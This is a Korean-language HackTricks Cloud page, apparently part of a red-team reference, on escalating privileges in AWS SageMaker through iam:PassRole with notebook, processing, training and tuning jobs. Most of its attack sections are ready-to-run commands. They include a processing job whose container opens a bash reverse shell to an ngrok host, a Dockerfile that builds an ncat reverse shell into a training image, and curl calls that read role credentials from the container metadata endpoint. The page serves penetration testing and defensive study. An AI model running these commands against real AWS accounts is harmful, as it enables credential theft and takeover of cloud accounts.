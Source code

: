 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM 역할을 사용하여 연결된 노트북을 생성하기 시작합니다:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
응답에는 새로 생성된 노트북 인스턴스의 ARN을 포함하는 `NotebookInstanceArn` 필드가 포함되어야 합니다. 그런 다음 `create-presigned-notebook-instance-url` API를 사용하여 노트북 인스턴스가 준비되면 액세스하는 데 사용할 수 있는 URL을 생성할 수 있습니다:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
브라우저로 URL에 접속하고 오른쪽 상단의 \`Open JupyterLab\`을 클릭한 다음, “Launcher” 탭으로 스크롤하여 “Other” 섹션 아래의 “Terminal” 버튼을 클릭합니다.

이제 IAM 역할의 메타데이터 자격 증명에 접근할 수 있습니다.

**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Jupyter **노트북이 이미 실행 중인 경우** `sagemaker:ListNotebookInstances`로 목록을 나열할 수 있습니다(또는 다른 방법으로 발견할 수 있습니다). 이들에 대한 **URL을 생성하고, 접근하여 이전 기술에서 언급한 대로 자격 증명을 탈취할 수 있습니다**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**잠재적 영향:** 연결된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreateProcessingJob,iam:PassRole`

해당 권한을 가진 공격자는 **sagemaker가 processingjob을 실행**하도록 할 수 있습니다. 공격자는 **AWS 관리 ECS 계정 인스턴스**에서 실행될 컨테이너의 정의를 지정할 수 있으며, **연결된 IAM 역할의 자격 증명을 훔칠 수 있습니다.**
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

해당 권한을 가진 공격자는 훈련 작업을 생성할 수 있으며, **임의의 컨테이너를 실행**하고 **연결된 역할**을 사용할 수 있습니다. 따라서 공격자는 역할의 자격 증명을 훔칠 수 있습니다.

{% hint style="warning" %}
이 시나리오는 이전 것보다 악용하기 더 어렵습니다. 왜냐하면 rev shell 또는 자격 증명을 공격자에게 직접 전송할 Docker 이미지를 생성해야 하기 때문입니다(훈련 작업의 구성에서 시작 명령을 지정할 수 없습니다).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

해당 권한을 가진 공격자는 (잠재적으로) **하이퍼파라미터 훈련 작업**을 생성할 수 있으며, **임의의 컨테이너**를 실행하고 **연결된 역할**을 부여할 수 있습니다.\
&#xNAN;_&#x49; 시간 부족으로 인해 악용하지 않았지만, 이전의 악용과 유사해 보입니다. 악용 세부정보와 함께 PR을 보내주시면 됩니다._

## 참고자료

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
